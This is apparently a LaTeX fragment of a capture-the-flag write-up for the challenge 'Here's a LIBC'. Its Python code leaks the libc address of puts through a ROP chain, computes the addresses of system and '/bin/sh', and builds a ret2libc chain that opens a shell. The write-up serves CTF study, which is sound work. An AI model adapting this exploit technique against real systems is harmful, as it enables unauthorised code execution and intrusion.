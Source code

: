 \documentclass[main.tex]{subfiles}
\begin{document}
\begin{minipage}[t]{0.49\textwidth}
	\begin{enumerate}
		\setlength{\parskip}{1em}
		\item[\texttt{[\_]}] \texttt{[Here's a LIBC]} Very similar to \texttt{ropfu}, but here we need to determine: ``How can the \texttt{libc} address be leaked?'' as directed by the title\\
		To solve this, we need to print the address of a function -- \texttt{puts}, in this case -- in \texttt{libc}, and the rest of the process is just as straightforward as in \texttt{ropfu}\\\\
		\begin{minipage}[t]{0.37\textwidth}
			\begin{python}
				# 0x400913 : pop rdi ; ret
				def mov_rdi(value):
				    return 0x400913, value
				
				puts_puts_byte =         \
				lambda x: flat(
				    cyclic(0x88),
				    # puts.got.plt + offs
				    mov_rdi(0x601018 + x),
				    0x400540,  # puts.plt
				    0x400771,  # main
				)
				
				def rop_chain(_puts):
				    time.sleep(3)
				    _libc = _puts - 0x080A30
				    _system = _libc+0x04F4E0
				    _bin_sh = _libc+0x1B40FA
				    
				    return flat(
				        cyclic(0x88),
				        stack_align(),
				        mov_rdi(_bin_sh),
				        _system,
				    )
			\end{python}
		\end{minipage}
		\hfill
		\begin{minipage}[t]{0.52\textwidth}
			\begin{python}
				# 0x40052e : ret
				def stack_align():
				    return 0x40052E
				
				# expect: 0000 7f?? ???? ????
				def extract_puts_address():
				    time.sleep(3)  # start-up time
				    pbytes, _ = [], p.recv(timeout=2.9)
				    
				    for i in range(7, -1, -1):
				        p.sendline(puts_puts_byte(i))
				        time.sleep(1)  # delay time
				        _ = p.recv(timeout=0.9)
				        
				        if not "size" in locals()             or len(_) == size:
				            pbytes.append(0x00)
				            size = len(_)
				            continue
				        
				        pchar = _.split(b"\n", 1)[1][0]
				        pbytes.append(pchar)
				    

\end{python}
\end{minipage}
\end{enumerate}
\end{minipage}
\end{document}
